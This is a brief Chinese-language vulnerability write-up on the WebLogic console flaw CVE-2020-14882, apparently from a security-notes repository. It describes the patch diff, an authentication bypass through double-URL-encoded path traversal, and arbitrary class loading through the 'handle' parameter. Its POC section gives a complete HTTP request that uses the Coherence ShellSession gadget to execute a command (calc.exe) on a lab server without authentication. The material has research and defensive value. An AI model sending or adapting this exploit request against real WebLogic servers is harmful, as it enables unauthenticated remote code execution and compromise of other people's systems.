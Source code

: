 # Weblogic反序列化漏洞-CVE-2020-14882

## 简介

未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。

![img](Weblogic-2020-14882.assets/1627364303916029.jpg)

根据补丁diff结果我们可以看出，可以看出上面的变化

我们可以通过下面的代码，任意加载某个类或者对象

```
http://<target>/console/console.portal?_nfpb=true&_pageLabel=HomePage1&handle=java.lang.String("ahihi")
```

![img](Weblogic-2020-14882.assets/1627364304465649.jpg)

## 未授权访问

![img](Weblogic-2020-14882.assets/16273643051162019.jpg)

非法字符绕过登陆保护

## POC

首先通过非法字符绕过访问，然后通过Gadget调用命令执行，poc如下

![img](Weblogic-2020-14882.assets/1627364305794349.jpg)

```
GET /console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22); HTTP/1.1
Host: 192.168.3.189:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ADM
Upgrade-Insecure-Requests: 1
```